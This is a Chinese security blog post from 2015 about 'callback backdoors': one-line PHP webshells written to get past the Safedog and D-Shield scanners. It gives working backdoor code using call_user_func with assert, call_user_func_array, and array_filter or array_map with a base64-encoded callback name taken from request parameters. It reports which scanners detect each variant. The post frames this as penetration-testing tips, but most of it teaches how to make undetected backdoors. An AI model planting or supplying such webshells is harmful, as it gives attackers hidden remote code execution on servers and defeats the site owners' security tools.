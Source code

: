 创造tips的秘籍——PHP回调后门
phith0n · 2015/07/20 10:58
0x00 前言

最近很多人分享一些过狗过盾的一句话，但无非是用各种方法去构造一些动态函数，比如'''$_GET['func']($_REQUEST['pass'])'''之类的方法。万变不离其宗，但这种方法，虽然狗盾可能看不出来，但人肉眼其实很容易发现这类后门的。

那么，我就分享一下，一些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。

有很多朋友喜欢收藏一些tips，包括我也收藏了好多tips，有时候在渗透和漏洞挖掘过程中很有用处。

一句话的tips相信很多朋友也收集过好多，过狗一句话之类的。14年11月好像在微博上也火过一个一句话，当时也记印象笔记里了：


最近又看到有人在发这个：http://www.secoff.net/archives/436.html

有同学收集tips，就有同学创造tips。那么我们怎么来创造一些过狗、过D盾、无动态函数、无危险函数（无特征）的一句话（后门）？

根据上面这个pdo的一句话，我就可以得到一个很具有普适性的结论：php中包含回调函数参数的函数，具有做后门的潜质。

我就自己给这类webshell起了个名字：回调后门。

0x01 回调后门的老祖宗

php中call_user_func是执行回调函数的标准方法，这也是一个比较老的后门了：

    call_user_func('assert', $_REQUEST['pass']);

assert直接作为回调函数，然后$_REQUEST['pass']作为assert的参数调用。

这个后门，狗和盾都可以查到（但是狗不会拦截）：


可php的函数库是很丰富的，只要简单改下函数安全狗就不杀了：


    call_user_func_array('assert', array($_REQUEST['pass']));

'''call_user_func_array'''函数，和'''call_user_func'''类似，只是第二个参数可以传入参数列表组成的数组。如图：


可见，虽然狗不杀了，D盾还是聪明地识别了出来。

看来，这种传统的回调后门，已经被一些安全厂商盯上了，存在被查杀的风险。

0x02 数组操作造成的单参数回调后门

进一步思考，在平时的php开发中，遇到过的带有回调参数的函数绝不止上面说的两个。这些含有回调（callable类型）参数的函数，其实都有做“回调后门”的潜力。 我最早想到个最“简单好用的”：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_filter($arr, base64_decode($e));

'''array_filter'''函数是将数组中所有元素遍历并用指定函数处理过滤用的，如此调用（此后的测试环境都是开着狗的，可见都可以执行）：


这个后门，狗查不出来，但D盾还是有感应，报了个等级3（显然比之前的等级4要低了）：


类似'''array_filter'''，'''array_map'''也有同样功效：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_map(base64_decode($e), $arr);
